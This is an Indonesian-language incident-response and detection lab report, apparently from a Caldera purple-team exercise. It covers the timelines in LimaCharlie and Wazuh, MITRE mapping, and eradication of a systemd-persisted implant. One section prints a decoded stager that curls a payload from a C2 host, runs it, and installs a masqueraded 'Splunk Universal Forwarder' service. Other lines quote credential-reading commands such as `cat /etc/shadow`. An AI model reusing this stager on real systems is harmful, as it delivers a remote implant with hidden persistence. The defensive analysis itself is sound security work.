1. Taksonomi LimaCharlie labelin `cat /etc/shadow` (T1003.008 — Credential Access secara MITRE) sebagai kategori **"Discovery"** ("Local System Accounts Discovery Attempt"), bukan "credential access"/"dumping" — gap labelling di rule bawaan, dicatat apa adanya.
2. Ada 5 detection lain **sebelum** `07:25:50` yang belum masuk ke kronologi di atas: `07:11:39` ("Execution Of Script Located In Potentially Suspicious Directory"), `07:13:01` (2x, "Local System Accounts Discovery Attempt - Linux"), `07:19:25` ("Pnscan Binary Data Transmission Activity"). Entry `07:11:39` kemungkinan justru deteksi **paling awal** dari keseluruhan kill chain — pas `sudo bash /tmp/lab-repo/setup.sh` dieksekusi (script dari direktori `/tmp`, persis match kategorinya). Command-line detail 4 entry ini belum dibuka satu-satu, jadi belum ditulis ke tabel — worth dicek lagi kalau mau lengkapin Fase 1.3.

### 5.2 Verifikasi Deteksi — Wazuh (SIEM)

Dashboard Wazuh → **Discover** (index `wazuh-alerts-*`), filter `agent.name: "web-server"`, rentang `2026-11-20 14:00:00 – 20:00:00` (WIB). Total **64 hits**, mayoritas numpuk di window `14:12`–`14:40`.

**Kronologi utama** (timestamp kolom kiri = WIB tampilan UI; `full_log` di dalamnya pakai UTC — selisih +7 jam, konsisten sama epoch UTC di 5.1):

| Waktu (WIB) | Rule ID | Deteksi | Command/Detail | Korelasi |
| --- | --- | --- | --- | --- |
| `14:12:01`–`14:12:05` | rootcheck (generic) | Trojaned version of file detected (10x) | `/bin/ls`, `/usr/bin/ls`, `/bin/env`, `/usr/bin/env`, `/bin/echo`, `/usr/bin/echo`, `/bin/chown`, `/usr/bin/chown`, `/bin/chmod`, `/usr/bin/chmod` | **Noise** — udah dicek manual, ini known bug rootcheck Wazuh (signature generic nyangkut ke binary `coreutils` normal), bukan indikasi kompromi |
| `14:19:31`–`14:19:33.638` | 2902 / 2904 / 80730 | Dpkg half configured/installed + Auditd SELinux permission check | `/usr/lib/cargo/bin/coreutils/who` (pid 3366/3371) | Muncul sebelum `setup.sh` dieksekusi — gak jelas asalnya, dicatat apa adanya, gak dipaksain korelasiin ke attack |
| `14:25:21.751` | **5402** | Successful sudo to ROOT executed | `anang` → `USER=root ; COMMAND=/usr/bin/bash /tmp/lab-repo/setup.sh` | **Match persis Fase 1.2** — initial access command yang justru gak kecapture LimaCharlie (lihat catatan #2 di 5.1) |
| `14:25:42`–`14:25:43` | 5402 (6x) | Successful sudo to ROOT executed | `mkdir -p /etc/monitor` → `cp /tmp/sandcat.go /etc/monitor/splunkd` → `chmod +x /etc/monitor/splunkd` → `tee /etc/systemd/system/splunkd.service` → `systemctl daemon-reload` → `systemctl enable splunkd.service` → `systemctl start splunkd.service` | Rangkaian persis bikin persistence systemd `splunkd.service` (Fase 1.2, T1543.002) |

Grup paket yang ke-install bareng event `14:25:21.751` (`traceroute`, `lm-sensors`, `man-db`) — decoy `apt install` yang disebut di Fase 1.2, bikin kesan tool network-diagnostic legit.



**Temuan (dari user):** walaupun gak ada rule khusus yang nge-flag "initial access"/"malware", rule `sudo` (5402) jelas nyatet lokasi pasti shell script yang dieksekusi (`/tmp/lab-repo/setup.sh`) dan urutan command sebelum discovery & credential access terjadi.

**Catatan tambahan (cross-check ke 5.1):** ini justru **menutup gap** yang ditemuin di LimaCharlie — kesimpulan user di 5.1 bilang LimaCharlie "gak nangkep initial access vector-nya", tapi Wazuh (decoder `sudo` + rule `5402`) berhasil nyatet command line persis `sudo bash /tmp/lab-repo/setup.sh` jam `14:25:21.751` WIB (`07:25:21` UTC) — ~29 detik sebelum LimaCharlie pertama kali nangkep `sandcat.go` jalan (`07:25:50` UTC). Dua tool saling melengkapi: Wazuh kuat di command-line/auditd level buat initial access, LimaCharlie kuat di proses/file-level buat discovery & credential access selanjutnya.

### 5.3 MITRE ATT&CK Mapping Summary

Konsolidasi technique ID per tactic (cross-reference ke evidence di 5.1/5.2 + Fase 1-4):

| Tactic | Technique | Evidence |
| --- | --- | --- |
| Execution | **T1204.002** — User Execution: Malicious File | Wazuh rule `5402`, `14:25:21.751` WIB — `COMMAND=/usr/bin/bash /tmp/lab-repo/setup.sh` |
| Persistence | **T1543.002** — Create or Modify System Process: Systemd Service | `/etc/systemd/system/splunkd.service` (`tee` + `daemon-reload` + `enable` + `start`, Fase 1.2) |
| Discovery | **T1057** — Process Discovery | `2026-11-20 07:40:12Z` — `sh -c "ps aux \| grep wazuh"` (Fase 3.2) |
| Collection | **T1005** — Data from Local System | `sh -c "cat /var/www/html/config.php"` — percobaan, **gagal** (Fase 4.4, file not found) |
| Credential Access | **T1003.008** — OS Credential Dumping: /etc/passwd and /etc/shadow | `cat /etc/shadow`, parent command line `sh -c "cat /etc/shadow"` (Fase 4.1-4.3) |

> **Koreksi analis (evaluasi mapping):** draft awal sempet nulis technique Persistence sebagai T1053.006 (Scheduled Task/Job: Systemd Timers). Dikoreksi ke **T1543.002** karena artifact-nya `.service` unit yang di-`enable`+`start` langsung (daemon jalan terus sebagai proses persisten), bukan `.timer` unit yang schedule-trigger ability di waktu tertentu — beda sub-technique walau sama-sama di bawah systemd.

### 5.4 Response & Containment

> **Status: selesai, dieksekusi manual oleh user 20 November 2026 lewat LimaCharlie.** Analyst udah tau kronologi lengkap dari 5.1-5.3, jadi response langsung diarahkan ke dua proses implant (`sandcat.go` di `/tmp`, `splunkd` di `/etc/monitor`) tanpa perlu re-investigasi dari nol.

**Kill proses `sandcat.go`:** LimaCharlie → **Processes**, cari `san` → ketemu `sandcat.go (deleted)`, PID `3919`, user `root`, path `/tmp/sandcat.go (deleted)`. **Kill Process** → konfirmasi → mati langsung, gak ada perlawanan (gak ada respawn, karena proses ini cuma jalan sekali lewat `nohup ... &`, bukan dikelola systemd).





**Kill proses `splunkd` — lebih "rewel":** cari `splu` → ketemu `splunkd`, PID `4308`, root, path `/etc/monitor/splunkd`. Beda sama `sandcat.go`, proses ini dikelola **systemd** (`splunkd.service`) — begitu di-kill, systemd langsung spawn ulang proses baru (konfirmasi di Caldera: 2 agent baru sempat lahir, `bkijbu` pid `8830` jam `21.22.36` dan `nhbhzt` pid `8837` jam `21.26.10`, sebelum akhirnya berhenti total).




Karena proses terus respawn, analyst putar ke **File System** → cek `/etc/monitor` → file `splunkd` (7.05 MB, `EXEC`) masih ada → **hapus langsung filenya**, bukan cuma kill prosesnya — baru respawn-nya berhenti permanen (systemd gak punya binary buat di-exec lagi).




Binary-nya doang gak cukup buat eradication lengkap — unit file **`splunkd.service`** di `/etc/systemd/system` masih ketinggalan (262 bytes). Kalau dibiarin, unit ini tetap kedaftar di systemd (`enable`-d ke `multi-user.target.wants`) dan bisa jadi residual artifact buat forensic/cleanup selanjutnya walaupun binary-nya udah gak ada. Dicari lewat **File System** → `/etc/systemd/system` → filter `splu` → ketemu → **hapus**.





**Investigasi `/tmp/lab-repo` sebelum dibersihkan:** isi folder konfirmasi persis sama narasi Fase 1.1 — `.git`, `health_monitor.sh`, `network_diagnostic.sh`, `README.md`, `service_manager.sh`, `setup.sh` (955 bytes).



Isi `setup.sh` dibuka — ada variabel `STAGER_PAYLOAD` (base64 dari gzip) yang di-decode lewat `echo "$STAGER_PAYLOAD" | base64 -d | gzip -dc | bash`. Di-decode manual (bukan dieksekusi) buat dokumentasi — isinya:

```sh
server="http://192.168.43.193:8888"

# Download ke /tmp
curl -svk -o /tmp/sandcat.go -X POST -H "file:sandcat.go" -H "platform:linux" -H "architecture:amd64" "$server/file/download" 2>/dev/null
chmod +x /tmp/sandcat.go 2>/dev/null

# Execute dari /tmp (fileless)
nohup /tmp/sandcat.go -server "$server" >/dev/null 2>&1 &

# Setup persistensi di /etc/monitor
sudo mkdir -p /etc/monitor
sudo cp /tmp/sandcat.go /etc/monitor/splunkd
sudo chmod +x /etc/monitor/splunkd
rm -f /tmp/sandcat.go

# Setup systemd service
sudo tee /etc/systemd/system/splunkd.service > /dev/null <<EOF
[Unit]
Description=Splunk Universal Forwarder
After=network.target

[Service]
Type=simple
ExecStart=/etc/monitor/splunkd -server $server
Restart=always
RestartSec=10
StandardOutput=null
StandardError=null

[Install]
WantedBy=multi-user.target
EOF
```

> Sebagian byte terakhir payload (baris `daemon-reload` dst) corrupt pas di-decode — kemungkinan bit error pas payload di-copy/paste, bukan masalah di source asli. Gak masalah, sisanya (`daemon-reload` → `enable` → `start`) udah terkonfirmasi lengkap dari log Wazuh di 5.2.

**Ini jawab 2 pertanyaan yang masih nganggur dari fase sebelumnya:**
1. Kenapa `sandcat.go` di LimaCharlie selalu muncul sebagai **`(deleted)`** (5.1) — karena `setup.sh` eksplisit `rm -f /tmp/sandcat.go` setelah file-nya disalin ke `/etc/monitor/splunkd`.
2. Kenapa `splunkd` "rewel"/respawn terus pas di-kill — unit systemd-nya eksplisit `Restart=always` + `RestartSec=10`, plus `Description=Splunk Universal Forwarder` buat masquerading (T1036.005) dan `StandardOutput=null`/`StandardError=null` buat nyembunyiin output.

**Verifikasi akhir:** Caldera → **Agents** — seluruh 6 agent (termasuk 2 agent respawn `bkijbu`/`nhbhzt`) sekarang **dead & untrusted**, `0 alive`. C2 putus total.



**MITRE ID:** T1562.001 (Impair Defenses: Disable or Modify Tools) dari sisi attacker (implant coba resist via `Restart=always`); dari sisi response, ini mapping ke NIST IR "Eradication" (kill process + hapus binary + hapus source repo).

---

# Verifikasi

Verifikasi tiap fase ditulis inline langsung di **Step-by-Step** masing-masing (screenshot + hasil + cross-check ke JSON operation report Caldera dan log Wazuh), bukan diulang terpisah di sini. Ringkasan status lengkap ada di tabel **Activity Coverage** di atas — seluruh 5 fase **✅ Done**, termasuk cross-tool verification EDR (LimaCharlie, 41 detections) + SIEM (Wazuh, 64 hits) di Fase 5.1-5.2 dan response manual di Fase 5.4.

---

# Batasan

* **Caldera "Discovery" profile gak 1:1 sama rencana playbook** — T1082 (System Information Discovery) dan T1049 (System Network Connections Discovery) yang direncanain dari awal gak termasuk di profile bawaan, jadi gak tereksekusi/terverifikasi sama sekali di lab ini (lihat Fase 3.2).
* **T1005 (Data from Local System) gagal** — bukan karena ke-block/ke-deteksi, tapi asumsi path `config.php` dari playbook lama (konteks DVWA) gak valid lagi di vektor supply chain sekarang. Collection via config file gak sempat tervalidasi beneran jalan (Fase 4.4).
* **LimaCharlie sendirian gak cukup buat initial access** — Detections-nya mulai dari titik `sandcat.go` udah jalan (`07:25:50Z`), gak nangkep command eksekusi `setup.sh` itu sendiri. Baru ketutup setelah cross-check manual ke Wazuh (rule `sudo`/`5402`). Kalau cuma pasang satu tool EDR tanpa SIEM pendamping, initial access vector di lab ini bakal keliatan sebagai blind spot (Fase 5.1 & 5.2).
* **Gap taksonomi rule bawaan LimaCharlie** — `cat /etc/shadow` (T1003.008, harusnya Credential Access) kelabelin sebagai kategori "Discovery" ("Local System Accounts Discovery Attempt"). Belum dibikinin custom rule buat benerin ini (Fase 5.1).
